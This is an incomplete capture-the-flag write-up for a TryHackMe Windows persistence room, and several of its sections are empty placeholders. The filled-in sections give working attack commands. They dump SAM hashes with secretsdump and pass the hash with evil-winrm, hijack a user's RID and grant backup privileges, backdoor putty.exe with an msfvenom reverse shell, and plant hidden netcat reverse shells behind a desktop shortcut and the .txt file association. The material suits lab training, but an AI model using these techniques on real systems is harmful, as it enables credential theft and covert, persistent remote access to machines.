 # Windows Local Persistence

### Tampering With Unprivileged Accounts
- Insert flag1 here<br />
We can check that the server has WinRM enabled with the command `Test-WSMan`. <br />
First, add thmuser1 to the backup group: `net localgroup "Backup Operators" thmuser1 /add`, and to the winRM group: `net localgroup "Remote Management Users" thmuser1 /add` Now, we need to disable LocalAccountTokenFilterPolicy, strips any local account of its administrative privileges when logging in remotely. To do that, run `reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1`. Now we can download password hashes: 

      reg save hklm\system system.bak
      reg save hklm\sam sam.bak
      download system.bak
      download sam.bak
  
And dump them:

      python3.9 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL
Then, we perform a pass-the-hash attack: `evil-winrm -i 10.10.62.15 -u Administrator -H 1cea1d7e8899f69e89088c4cb4bbdaa3`. <br /> Flag is `THM{FLAG_BACKED_UP!}`
- Insert flag2 here<br />
Run `secedit /export /cfg config.inf` to export the configuration file, then open it and edit it by adding our user to the SeBackupPrivilege and SeRestorePrivilege lines: <br />
![image](https://github.com/user-attachments/assets/fa5d5842-8547-4594-89a2-3e218ce924b2)<br />
Now load the configuration back into the system:

      secedit /import /cfg config.inf /db config.sdb
      
      secedit /configure /db config.sdb /cfg config.inf
However, the user still can't log over winRM because it is not in the "Remote Management Users" group.  Instead of adding the user to the Remote Management Users group, we'll change the **security descriptor** associated with the WinRM service to allow thmuser2 to connect. So, run `Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI` on powershell: <br />
![image](https://github.com/user-attachments/assets/a7c6d479-ed38-4560-a179-8fd3d6132b63)<br />
We can now log in the account from our attackbox whenever we want: <br />
![image](https://github.com/user-attachments/assets/ad1387a5-522f-4272-8056-899db8a941dd)<br />
`THM{IM_JUST_A_NORMAL_USER}`

- Insert flag3 here<br />
The SAM is restricted to the SYSTEM account only, so even the Administrator won't be able to edit it. To run Regedit as SYSTEM, we will use psexec: `.\PsExec64.exe -i -s regedit`<br />
Go to HKLM\SAM\SAM\Domains\Account\Users\, and click on 0x3F2, which is the hexadecimal value for 1010(thmuser3 RID).<br />
From there, the value "F" holds the user RID<br />
![image](https://github.com/user-attachments/assets/a2827e8c-f267-40c2-828e-843f93698cda)<br />
Notice that the RID is stored in little endian. The hexadecimal for 500 is 0x1F4, so we will substitute thmuser3's RID with F4 01. Now, as described in the task, log in thmuser3 via RDP: `xfreerdp /u:thmuser3 /p:Password321 /v:10.10.62.15`. Finally, get the flag: <br />
![image](https://github.com/user-attachments/assets/1ad110d7-35a3-4282-abcc-588f2e9f763f)<br />
`THM{TRUST_ME_IM_AN_ADMIN}`

### Backdooring Files
- Insert flag5 here <br />
You can easily plant a payload of your preference in any .exe file with msfvenom. The binary will still work as usual but execute an additional payload silently by adding an extra thread in your binary. To create a backdoored putty.exe, we can use the following command:

            msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
Another way is to change the shortcut file of a .exe in the desktop to point to a script of our own. et's create a simple Powershell script in C:\Windows\System32. The script will execute a reverse shell and then run calc.exe: 

            Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"
            
            C:\Windows\System32\calc.exe
The final target for the shortcut is: `powershell.exe -WindowStyle hidden C:\Windows\System32\scirpt.ps1`. `-windowstyle hidden` is important because it won't open a powershell window, which might look a bit sus. 
So change the shortcut, open a netcat listener, and run the calculator. Get the flag:<br />
![image](https://github.com/user-attachments/assets/9a7f08a4-cd60-49cb-95c0-d72e83b2465b)<br />
`THM{NO_SHORTCUTS_IN_LIFE}`

By the way, WHERE THE HELL IS FLAG 4!?
- Insert flag6 here<br />
First, let's create a ps1 script with the following content and save it to C:\Windows\backdoor2.ps1

            Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe 10.11.85.53 4448"
            C:\Windows\system32\NOTEPAD.EXE $args[0]

Now let's change the registry key to run our backdoor script in a hidden window. Move to HKLM\Software\Classes\shell\open\command and edit it: <br />
![image](https://github.com/user-attachments/assets/baa53c54-d822-4755-aa35-31b2d3bbe472)<br />
Finally get the flag: <br />
![image](https://github.com/user-attachments/assets/909c44cc-eff8-41ad-9411-cf8c3bb38762)<br />
`THM{TXT_FILES_WOULD_NEVER_HURT_YOU}`

### Abusing Services
- Insert flag7 here
- Insert flag8 here

### Abusing Scheduled Tasks 
- Insert flag9 here

### Logon Triggered Persistence
- Insert flag10 here
- Insert flag11 here
- Insert flag12 here
- Insert flag13 here

### Backdooring the Login Screen / RDP
- Insert flag14 here
- Insert flag15 here

### Persisting Through Existing Services
- Insert flag16 here
- Insert flag17 here

### 

